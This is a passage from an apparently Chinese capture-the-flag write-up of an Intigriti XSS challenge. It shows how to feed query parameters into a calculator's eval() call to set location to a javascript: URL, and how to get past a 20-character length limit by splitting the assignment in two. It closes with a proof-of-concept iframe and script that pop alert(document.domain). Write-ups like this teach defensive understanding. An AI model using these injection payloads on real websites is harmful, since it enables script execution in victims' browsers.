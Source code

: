 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01387de31d2acc469d.png)

因此，构造payload`?javascript:alert(1)//num1=9&amp;operator=%2B&amp;num2=searchQueryString`，则`searchQueryString`的值就包含`javascript:alert(1)`:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0158eb313d70996dc2.png)

现在只需要让`location`等于`searchQueryString`，构造payload：`?javascript:alert(1)//&amp;num1=loaction&amp;operator=-&amp;num2=searchQueryString`:

[![](https://p4.ssl.qhimg.com/t01e655007b54dc828a.png)](https://p4.ssl.qhimg.com/t01e655007b54dc828a.png)

但在执行过程中`eval(operation);`内`operation`为`location=searchQueryString`，长度超过20被限制。因此，现在需要绕过长度20的限制。

为了能缩短长度，经过研究，可以首先让`a=searchQueryString`(len=19)，然后再让`location=a`(len=10):

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a88562c6fbb7ce41.png)

为了达到这个目标，需要以下条件：
- 整个过程需要至少执行两次（`a=searchQueryString`及`location=a` ）
- 在两次执行中，需要能改变参数`num1` `num2`的值（两次执行对应的参数值不同）
通过观察，`clear()`函数与`window.onload`均包含`init()`:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01529b12570dd2458c.png)

[![](https://p5.ssl.qhimg.com/t014f22a01569a07b7c.png)](https://p5.ssl.qhimg.com/t014f22a01569a07b7c.png)

### <a class="reference-link" name="POC"></a>POC

#### <a class="reference-link" name="a.%E6%9C%89%E4%BA%A4%E4%BA%92"></a>a.有交互

利用`clear()`函数实现xss，需要用户交互，构造payload：

```
# html
&lt;iframe id="intigriti" src="https://challenge-1220.intigriti.io/?javascript:alert(document.domain)//#&amp;num1=a&amp;operator=%3D&amp;num2=searchQueryString"  style="border-style:none;" width=500 hight=500&gt;&lt;/iframe&gt;

# javascritp

setTimeout(secondchange, 1000);
function secondchange() `{`
    document.querySelector("#intigriti").src = "https://challenge-1220.intigriti.io/?javascript:alert(document.domain)//#&amp;num1=location&amp;operator=%3D&amp;num2=a";
`}`
```
